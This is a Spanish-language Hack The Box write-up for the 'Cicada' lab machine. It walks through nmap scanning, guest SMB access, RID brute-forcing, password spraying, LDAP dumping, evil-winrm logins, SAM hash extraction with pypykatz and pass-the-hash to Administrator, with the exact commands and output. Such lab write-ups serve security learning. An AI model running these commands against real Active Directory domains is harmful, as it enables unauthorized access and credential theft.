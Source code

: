 ```yaml
---
title: Writeup Cicada

---
```

* * *

En este writeup, exploramos la máquina Cicada de Hack The Box, donde explotamos Active Directory mediante la recopilación de información y la técnica Pass-the-Hash. Finalmente, logramos comprometer el dominio y extraer datos sensibles.

# RECONOCIMIENTO

Empezaré por scanear todos los protocolos en la máquina objetivo:
  1. Escanear los puertos abiertos.
  2. Escanear los servicios en cada puerto que esté abierto.
	
		nmap -sCV -v 10.10.11.35 -Pn -T3
	
Como resultado encontramos esto:
  ```ruby
  
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
	Starting Nmap 7.93 https:nmap.org at 2024-10-02 12:18 CEST
	NSE: Loaded 155 scripts for scanning.
	NSE: Script Pre-scanning.
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating Parallel DNS resolution of 1 host. at 12:18
	Completed Parallel DNS resolution of 1 host. at 12:18, 0.01s elapsed
	Initiating Connect Scan at 12:18
	Scanning 10.10.11.35 [1000 ports]
	Discovered open port 135/tcp on 10.10.11.35
	Discovered open port 53/tcp on 10.10.11.35
	Discovered open port 445/tcp on 10.10.11.35
	Discovered open port 139/tcp on 10.10.11.35
	Discovered open port 464/tcp on 10.10.11.35
	Discovered open port 389/tcp on 10.10.11.35
	Discovered open port 593/tcp on 10.10.11.35
	Discovered open port 88/tcp on 10.10.11.35
	Discovered open port 3269/tcp on 10.10.11.35
	Discovered open port 3268/tcp on 10.10.11.35
	Discovered open port 636/tcp on 10.10.11.35
	Completed Connect Scan at 12:18, 4.00s elapsed (1000 total ports)
	Initiating Service scan at 12:18
	Scanning 11 services on 10.10.11.35
	Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 63.64% done; ETC: 12:18 (0:00:05 remaining)
	Completed Service scan at 12:19, 45.25s elapsed (11 services on 1 host)
	NSE: Script scanning 10.10.11.35.
	Initiating NSE at 12:19
	Completed NSE at 12:19, 40.04s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 1.60s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 0.00s elapsed
	Nmap scan report for 10.10.11.35
	Host is up (0.037s latency).
	Not shown: 989 filtered tcp ports (no-response)
	PORT     STATE SERVICE       VERSION
	53/tcp   open  domain        Simple DNS Plus
	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-02 17:18:36Z)
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
	| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
	| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
	| Issuer: commonName=CICADA-DC-CA
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2024-08-22T20:24:16
	| Not valid after:  2025-08-22T20:24:16
	| MD5:   9ec51a2340efb5b83d2c39d8447ddb65
	|_SHA-1: 2c936d7bcfd811b99f711a5a155d88d34a52157a
	|_ssl-date: TLS randomness does not represent time
	445/tcp  open  microsoft-ds?
	464/tcp  open  kpasswd5?
	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
```

  En especial encontramos un Active Directory (CICADA-DC.cicada.htb)

* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a probar un par de cosas:


Vamos a intentar conectarnos con la herramienta NetExec mediante SMB con el usuario "guest" a ver si podemos:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '
```
Y nos deja conectarnos:
```ruby
	[*] First time use detected
	[*] Creating home directory structure
	[*] Creating missing folder logs
	[*] Creating missing folder modules
	[*] Creating missing folder protocols
	[*] Creating missing folder workspaces
	[*] Creating missing folder obfuscated_scripts
	[*] Creating missing folder screenshots
	[*] Creating default workspace
	[*] Initializing FTP protocol database
	[*] Initializing LDAP protocol database
	[*] Initializing MSSQL protocol database
	[*] Initializing RDP protocol database
	[*] Initializing SMB protocol database
	[*] Initializing SSH protocol database
	[*] Initializing VNC protocol database
	[*] Initializing WINRM protocol database
	[*] Initializing WMI protocol database
	[*] Copying default configuration file
	SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
	SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```
Ahora voy a proceder a listar las carpetas que se comparte y encontramos algunas que pueden contener información sensible:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '' --shares
```
Y encontramos dos carpetas que son de nuestros interes, HR y DEV, voy a intentar acceder a HR a ver si puedo encontrar algo:
```js
smbclient //10.10.11.35/HR
```
```js
smb: \> ls
	  .                                   D        0  Thu Mar 14 13:29:09 2024
	  ..                                  D        0  Thu Mar 14 13:21:29 2024
	  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024
```
Y encontramos un .txt en el que dentro de el se encuentra una credencial.
![Texto alternativo](/assets/cicada.png)

Ahora con los usuarios que encontramos en SidTypeUser con este comando:
```js
cme smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
Lo metemos en un archivo y aplicamos fuerza bruta para probar esa credencial con todos los usuarios que hemos encontrado:
```js
netexec smb 10.10.11.35 -u users.list -p 'Credencial'
```
Y vemos que esa credencial coincide con el usuario "michael".
![Texto alternativo](/assets/cicada2.png)

Ahora con dumpear toda la información que podamos logueados como este usuario:
```js
ldapdomaindump ldap:/10.10.11.35 -u 'cicada.htb\michael.wrightson' -p "Credencial"
```
![Texto alternativo](/assets/cicada3.png)

Y mirando entre estos archivos, encontramos otra credencial, en este caso de el usuario "david" dentro del archivo (domain_users.grep).

Esta credencial y usuario nos va a permitir acceder a los archivos que se encuentra dentro de la carpeta DEV, ya que con el usuario "michael" no podía acceder.
![Texto alternativo](/assets/cicada4.png)
![Texto altenativo](/assets/cicada5.png)

Encontramos otra credencial dentro de ese archivo .ps1
Asique ahora mediante evil-winrm nos vamos a conectar al AD en busca de la user flag.
```js
evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p 'Credencial'
```
Y ya estamos dentro:

![Texto altenativo](/assets/cicada6.png)

Si buscamos un poco por los directorios, encontramos la user flag:
![Texto altenativo](/assets/cicada7.png)

# [](#header-1)Escalada de Privilegios

Primero de todo voy a ver sobre que tengo privilegios:

![Texto altenativo](/assets/cicada8.png)

Lo que voy a hacer ahora es extraer la base de datos SAM para extraer los hashes NTLM/NTHash que estan almacenadas en el sistema:
```js
pypykatz registry --sam sam system
```
```js
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:NTHASHDELUSUARIOADMINISTRATOR*********
	*******:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
	0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
	d7e0c089c0:::
```
Ahora una vez conseguido ese NTHash del usuario "Administrator" nos logueamos utilizando evil-winrm:
```js
evil-winrm -i 10.10.11.35 -u administrator -H "NTHASHdeAdministator"
```
Y ya encontrariamos la root flag.

![Texto altenativo](/assets/cicada9.png)


PWNED!
